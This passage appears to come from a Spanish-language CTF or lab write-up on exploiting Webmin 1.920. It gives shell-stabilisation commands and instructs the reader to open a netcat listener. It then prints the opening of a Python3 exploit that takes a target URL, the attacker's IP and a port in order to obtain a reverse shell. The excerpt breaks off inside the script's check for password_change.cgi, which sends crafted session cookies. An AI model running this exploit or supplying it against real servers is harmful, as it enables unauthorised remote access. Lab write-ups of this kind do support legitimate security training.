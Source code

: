 Ya solamente obtenemos una sesión interactiva, así que ejecuta los siguientes comandos:
```bash
# Paso 1
script /dev/null -c bash

# Paso 2
CTRL + Z

# Paso 3
stty raw -echo; fg

# Paso 4
reset -> xterm

# Paso 5
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```

<br>

<h3 id="RevShell2">Obteniendo Reverse Shell con Exploit Hecho en Python</h3>

He desarrollado una forma de automatizar la obtención de la **Reverse Shell** con un script de **Python3**.

Lo unico que tienes que hacer es:
* Activar un listener con `nc -nlvp {puerto_a_usar}`
* Indicar la URL del webmin, tu IP y el puerto usado del listener

Aquí te dejo el Exploit:
```python
#!/usr/bin/env python3
import requests
import argparse
import urllib.parse
import time
import urllib3
from requests.exceptions import ReadTimeout


# Desactiva advertencias por SSL
requests.packages.urllib3.disable_warnings()


# Recopilación de argumentos
def parse_arguments():
        parser = argparse.ArgumentParser(description="Script para aplicar Reverse Shell a Webmin 1.920 vulnerable")
        parser.add_argument("-url", required=True, help="URL del Webmin a utilizar, ej: http://10.10.10.10:10000")
        parser.add_argument("-ip", required=True, help="Tu dirección IP para Reverse Shell")
        parser.add_argument("-p", type=int, required=True, help="Puerto de escucha a utilizar")
        return parser.parse_args()


# Checando si existe password_change.cgi
def check_password_change(url_base):
        url = url_base + '/password_change.cgi'
        headers = {
                'Cookie': "redirect=1; testing=1; sid=x; sessiontest=1",
                'Referer': f"{url_base}/session_login.cgi"
        }
        try:
                response = requests.get(url, headers=headers, verify=False, timeout=5)
```